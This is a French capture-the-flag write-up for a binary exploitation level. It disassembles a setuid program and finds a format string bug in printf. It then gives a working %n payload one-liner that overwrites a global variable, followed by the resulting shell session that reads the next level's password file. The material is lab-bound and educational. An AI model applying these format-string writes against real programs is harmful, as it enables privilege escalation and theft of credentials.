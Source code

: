 ## Démarches
- objdump -d level3
    ```
    0804851a <main>:
    804851a:	55                   	push   %ebp
    804851b:	89 e5                	mov    %esp,%ebp
    804851d:	83 e4 f0             	and    $0xfffffff0,%esp
    8048520:	e8 7f ff ff ff       	call   80484a4 <v>
    8048525:	c9                   	leave
    8048526:	c3                   	ret

    
    080484a4 <v>:
    80484a4:	55                   	push   %ebp
    80484a5:	89 e5                	mov    %esp,%ebp
    80484a7:	81 ec 18 02 00 00    	sub    $0x218,%esp
    80484ad:	a1 60 98 04 08       	mov    0x8049860,%eax
    80484b2:	89 44 24 08          	mov    %eax,0x8(%esp)
    80484b6:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    80484bd:	00
    80484be:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484c4:	89 04 24             	mov    %eax,(%esp)
    80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
    80484cc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484d2:	89 04 24             	mov    %eax,(%esp)
    80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
    80484da:	a1 8c 98 04 08       	mov    0x804988c,%eax
    80484df:	83 f8 40             	cmp    $0x40,%eax
    80484e2:	75 34                	jne    8048518 <v+0x74>
    80484e4:	a1 80 98 04 08       	mov    0x8049880,%eax
    80484e9:	89 c2                	mov    %eax,%edx
    80484eb:	b8 00 86 04 08       	mov    $0x8048600,%eax
    80484f0:	89 54 24 0c          	mov    %edx,0xc(%esp)
    80484f4:	c7 44 24 08 0c 00 00 	movl   $0xc,0x8(%esp)
    80484fb:	00
    80484fc:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
    8048503:	00
    8048504:	89 04 24             	mov    %eax,(%esp)
    8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
    804850c:	c7 04 24 0d 86 04 08 	movl   $0x804860d,(%esp)
    8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
    8048518:	c9                   	leave
    8048519:	c3                   	ret    
    ```
  La valeur contenue à l'adresse `0x804988c` doit être `0x40`, soit 64, soit `@` en ascii

  
- Les exploits par overflow de buffer ne sont pas possibles (utilisation de *fgets* plutôt que *gets*)
- Une autre vulnérabilité commune des programmes ELF est la [*Format String Attack*](https://owasp.org/www-community/attacks/Format_string_attack) ou [*Uncontrolled Format String*](https://en.wikipedia.org/wiki/Uncontrolled_format_string)

- `./level3` et `AAA0_%08x.%08x.%08x.%08x`
  > AAA0_00000200.b7fd1ac0.b7ff37d0.30414141
- Pour écraser `0x804988c` (`\x8c\x98\x04\x08`), on peut utiliser l'option `%n` de printf (avec `$4` pour cibler la 4 ème adresse de la stack) :
    `(python -c 'print("\x8c\x98\x04\x08"+60*"A"+"%4$n")' ; cat -) | ./level3`
    ```
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Wait what?!
    pwd
    /home/user/level3
    cd ../level4
    ls -la
    total 17
    dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
    dr-x--x--x  1 root   root    340 Sep 23  2015 ..
    -rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
    -rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
    -rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
    -rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
    -rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
    cat .pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```

<br>
----
## Ressources

- [The 101 of ELF files on Linux: Understanding and Analysis](https://linux-audit.com/elf-binaries-on-linux-understanding-and-analysis/)
- [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)
- [Exploiting Format String Vulnerabilities - PDF](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)
- [Introduction to format string exploits](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
- [CTF Field Guide - Exploiting Binaries 1](https://trailofbits.github.io/ctf/exploits/binary1.html)